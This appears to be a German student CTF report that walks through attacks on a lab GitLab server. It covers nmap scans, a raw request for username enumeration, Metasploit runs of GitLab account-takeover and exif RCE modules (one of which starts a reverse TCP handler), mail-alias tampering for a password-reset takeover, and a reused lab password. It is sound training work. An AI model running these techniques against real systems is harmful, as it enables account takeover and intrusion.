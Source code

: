 ```yaml
---
title: "Cyber2 CTF4-Report"
titlepage: true
author: [Elias Gmünder, Timo Gafner, David Jäggli]
date: "2024-11-21"
keywords: [Markdown, CTF4, Report]
header-includes:
  - \setkeys{Gin}{keepaspectratio}
...
```


# CTF4 Report 

## Hint

In `/home/stormcloak/.git/config`:

```
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = git@gitlab.robstargames.com:stormcloak/list-of-spies.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```


## Initial information

### Scans

Scan:
```
nmap -sP 192.168.22.0/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-21 16:24 CET
Nmap scan report for Solitude.robstargames.com (192.168.22.4)
Host is up (0.0013s latency).
```

```
sudo nmap -sS solitude.robstargames.com

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 13:56 CET
Nmap scan report for solitude.robstargames.com (192.168.22.4)
Host is up (0.00051s latency).
rDNS record for 192.168.22.4: Solitude.robstargames.com
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
25/tcp   closed smtp
80/tcp   open   http
443/tcp  open   https
3000/tcp closed ppp

Nmap done: 1 IP address (1 host up) scanned in 4.89 seconds
```



### Gitlab

Wenn man die Gitlab Website besucht steht:
`CVE 2021-22205 has been patched successfully.`
Dies ist eine uralte CVE, heisst wahrscheinlich alte Version und neuere CVE's funktionieren eventuell noch. 

Version gefunden mit:

1. Footer
2. Explore
3. Oben richts auf Fragezeichen drücken 
4. "Whats new" -> v13.9.


Vulnerabilities bei dieser Version:
Sign_up user enumeration vulnerability
Mit burp suite -> 'stormcloak' existiert nicht 
Hint von Songtext: 'bully' existiert

Netzwerkkommunikation für diesen Zweck:
Request:
```
GET /users/bully/exists HTTP/2
Host: solitude.robstargames.com
Cookie: experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqWTNPR05tTVRKbUxUTTNaVEF0TkRBMk5TMDVaR1V6TFRVMk5XWm1OakkwWW1ZeE9DST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--38a321bb27ba4ffd3a817cf3a63d72b0b5aa150a; _gitlab_session=42c1ff316c68124ee56d55415b81192d
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
X-Csrf-Token: H6ADma8ZcW1B+Pgz2DY2SFRbyj8B9DpHpEL8pLZDdHuBbkFQdDi3rAwTAdZW+bZ26Dnas7YCiajsmc1aYtFBCg==
Accept-Language: en-US
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Platform: "Linux"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://solitude.robstargames.com/users/sign_up
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

Response:
```
HTTP/2 200 OK
Server: nginx
Date: Fri, 22 Nov 2024 09:31:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 15
Cache-Control: max-age=0, private, must-revalidate
Etag: W/"8063e5a51719c58189c7d5209a5f37b3"
Page-Title: GitLab
Set-Cookie: _gitlab_session=42c1ff316c68124ee56d55415b81192d; path=/; expires=Fri, 22 Nov 2024 11:31:34 GMT; secure; HttpOnly; SameSite=None
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Gitlab-Feature-Category: users
X-Permitted-Cross-Domain-Policies: none
X-Request-Id: 01JD9KCSPCX512Q5G76YDY4Q0N
X-Runtime: 0.016192
X-Ua-Compatible: IE=edge
X-Xss-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000
Referrer-Policy: strict-origin-when-cross-origin

{"exists":true}
```

Wenn man versucht einen Account zu registrieren mit bully@robstargames.com:

![email_exists](email_exists.png){ width=70% height=auto }

Bestätigung dass user bully existiert, mit dieser Adresse.





## Exploit Versuche


Eine neuere CVE ist 2023-7028 -> das E-Mail von einem beliebigen User zurücksetzen (zurücksetz-mail wird an custom Mail Addresse geschickt).
Auf Kali einen SMTP Server aufsetzen:
```
sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25
```

Dann auf msf:
```
use auxiliary/admin/http/gitlab_password_reset_account_takeover
```

NOTE: funktioniert nicht!!


Wenn man versucht CVE 2021-22205 (genannt in Banner auf Hauptseite - angeblich gepatcht) in msf auszunutzen steht:

```
msf6 exploit(multi/http/gitlab_exif_rce) > run

[*] Started reverse TCP handler on 192.168.156.158:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading QWipGeZx.jpg to /sc47E16
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The error response indicates ExifTool was not run. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
```
-> wurde tatsächlich gepatcht.


### Password reset

Weil bully@robstargames existiert:
- Mails an bugs@robstargames wurden an den Server Riften (192.168.22.65) gesendet. Heisst man könnte versuchen dort User bully zu erstellen, E-Mail Adresse registrieren und dann Passwort mit E-Mail zurücksetzen auf Gitlab website
- `adduser bully`
- `cat /etc/postfix/main.cf`: `alias_database = hash:/etc/aliases`
- `vi /etc/aliases` -> `bully: bully` - to make certain E-Mails at bully are forwarded to the right account/place
- `newaliases` - refresh aliases
- test von kali Maschine: `sendemail -f 69420@asdf.com -t bully@robstargames.com -u "k" -s 192.168.22.65 -m "moin maista" -o tls=no`
- `cat /var/mail/bully` -> message steh drinn (auf Riften Server), lets gooooo
- Passwort reset auf Gitlab anfordern für E-Mail bully@robstargames.com
- E-Mail reset funktioniert nicht (E-Mail kommt nicht an auf Riften) fml


### FML

Zugansdaten bei Gitlab sind gleich wie bei server: bully:Allegiance -_-


### In gitlab

- User bully hat 1 repo: snake game
- Keine öffentlichen repos
- User Paul, Rob und Hans (aus Song) existieren nicht auf gitlab
- Alle MSF module die ich gefunden habe funktionieren nicht bei dieser Version
- Original (verlinkt) snake file in maschine kopieren -> `diff original copy` -> sind genau gleich
- User Administrator hat kein Inhalt, ausser das Default repo

